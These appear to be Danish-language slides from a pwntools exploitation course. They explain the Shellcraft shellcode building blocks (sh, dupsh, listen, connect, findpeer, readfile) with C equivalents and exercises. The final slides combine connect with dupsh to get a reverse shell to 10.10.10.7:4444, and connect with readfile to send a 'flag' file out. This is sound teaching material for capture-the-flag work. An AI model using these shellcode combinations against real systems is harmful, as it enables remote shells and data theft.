 Shellcraft
----------
Shellcraft er pwntools samling af shellcode.

TIP: For de interesserede ligger al shellcode under 'pwnlib/shellcraft/templates' og er skrevet i Mako templates.

Shellcraft
----------
Shellcraft er pwntools samling af shellcode.

[source,bash]
------------------------------------------------
$ shellcraft --list i386.linux
i386.linux.acceptloop_ipv4
i386.linux.connect
i386.linux.connectstager
....
i386.linux.sh
i386.linux.stager
i386.linux.syscall
------------------------------------------------

Byggeklodser really, plus et par færdigbyggede klar-til-brug.

Shellcraft
----------
'findpeer' er en ret fantastisk byggeklods.

[source,bash]
------------------------------------------------
$ shellcraft i386.linux.findpeer -?                           
Args: port (defaults to any port)
    Finds a socket, which is connected to the specified port.
    Leaves socket in ESI.
------------------------------------------------

Den gør ca. dette:
[source,c]
------------------------------------------------
struct sockaddr_in addr;
socklen_t addrlen = sizeof(struct sockaddr_in);
int socket = 0;
while (getpeername(socket, &addr, &addrlen) < 0) {
    socket++;
}
/* yay, a connected socket has been found */
------------------------------------------------

[source,bash]
------------------------------------------------
$ shellcraft -f a i386.linux.findpeer
findpeer_1:
    push -1
    push SYS_socketcall_getpeername
.....
------------------------------------------------

Opgave 3
--------
Opgave tre bliver at udbygge opgave to til at sende "Hello world" tilbage til os over vores eksisterende forbindelse.

Opgave 4
--------
Lav opgave tre fuldstændig med shellcraft byggeklodser.

Opgave 5
--------
Skær alt unødvendigt væk fra opgave fire.

Standard single stage shellcodes
--------------------------------
* sh (til lokale exploits)
* dupsh (til remote exploits)
* listen (branch i386-bindshell tilføjer den)
* connect
* findpeer
* readfile

Standard single stage shellcodes - sh
-------------------------------------
Eksekverer en shell. I sin rene form kan den kun bruges i lokale exploits.

Gør ca. dette:
[source,c]
------------------------------------------------
execve("/bin/sh", 0, 0);
------------------------------------------------

Standard single stage shellcodes - dupsh
----------------------------------------
Omdirrigerer standard in, standard out og standard error til en given file descriptor (socket?) og eksekverer en shell.

[source,c]
------------------------------------------------
dup2(fd, 2);
dup2(fd, 1);
dup2(fd, 0);
execve("/bin/sh", 0, 0);
------------------------------------------------

Giver mest mening efter enten 'listen', 'connect' eller 'findpeer'.

TIP: 'findpeersh' er lig med 'findpeer + dupsh'

Standard single stage shellcodes - listen
-----------------------------------------
Laver en server socket og accepterer første forbindelse på en given port.

[source,c]
------------------------------------------------
struct sockaddr_in addr;
int server, client;
server = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(port); //port argument required
addr.sin_addr.s_addr = INADDR_ANY;
bind(server, &addr, sizeof(struct sockaddr_in));
listen(server, 1);
client = accept(server);
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - connect
------------------------------------------
Forbinder til en server på en given port. Specificeres et hostname bliver det resolved lokalt inden shellcoden genereres med hardcoded IP adresse.

[source,c]
------------------------------------------------
struct sockaddr_in addr;
int client;
client = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(port); //port argument required
addr.sin_addr.s_addr = some_address; //address argument required
connect(client, &addr, sizeof(struct sockaddr_in));
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - findpeer
-------------------------------------------
Har vi snakket om, men her er den igen:

[source,c]
------------------------------------------------
struct sockaddr_in addr;
socklen_t addrlen = sizeof(struct sockaddr_in);
int socket = 0;
while (getpeername(socket, &addr, &addrlen) < 0) {
    socket++;
}
------------------------------------------------

TIP: Er god sammen med 'readfile' eller 'dupsh'.

TIP: Understøtter både IPv4 og IPv6!!!

Standard single stage shellcodes - readfile
-------------------------------------------
Åbner en fil og sender dens indhold til en given file descriptor (f.eks. en socket).

[source,c]
------------------------------------------------
struct stat st;
int file = open(path, O_RDONLY); //path argument required
fstat(file, &st);
sendfile(some_file_descriptor, file, 0, st.st_size);
------------------------------------------------

Standard single stage shellcodes - connect + dupsh
--------------------------------------------------
[source,bash]
------------------------------------------------
$ shellcraft i386.linux.connect -?
Connects to the host on the specified port.
Leaves the connected socket in ebp

Arguments:
    host(str): Remote IP address or hostname (as a dotted quad / string)
    port(int): Remote port
    network(str): Network protocol (ipv4 or ipv6)
$ shellcraft i386.linux.dupsh -?                                           
Args: [sock (imm/reg) = ebp]
    Duplicates sock to stdin, stdout and stderr and spawns a shell.
$
------------------------------------------------

'connect' efterlader en socket i 'ebp'.

'dupsh' tager en input file descriptor, men dens default værdi er 'ebp'.

Standard single stage shellcodes - connect + dupsh
--------------------------------------------------
[source,python]
------------------------------------------------
SHELLCODE = asm(shellcraft.connect('10.10.10.7', 4444) + \
                shellcraft.dupsh())
------------------------------------------------

Standard single stage shellcodes - connect + readfile
-----------------------------------------------------
[source,bash]
------------------------------------------------
$ shellcraft i386.linux.connect -?                                         
Connects to the host on the specified port.
Leaves the connected socket in ebp

Arguments:
    host(str): Remote IP address or hostname (as a dotted quad / string)
    port(int): Remote port
    network(str): Network protocol (ipv4 or ipv6)
$ shellcraft i386.linux.readfile -?
Args: [path, dst (imm/reg) = esi ]
    Opens the specified file path and sends its content to the specified file descriptor.
$
------------------------------------------------

'connect' efterlader en socket i 'ebp'.

'readfile' tager en filedescriptor, men dens default værdi er 'esi'.

Standard single stage shellcodes - connect + readfile
-----------------------------------------------------
[source,python]
------------------------------------------------
SHELLCODE = asm(shellcraft.connect('10.10.10.7', 4444) + \
                shellcraft.readfile('flag', 'ebp'))
------------------------------------------------
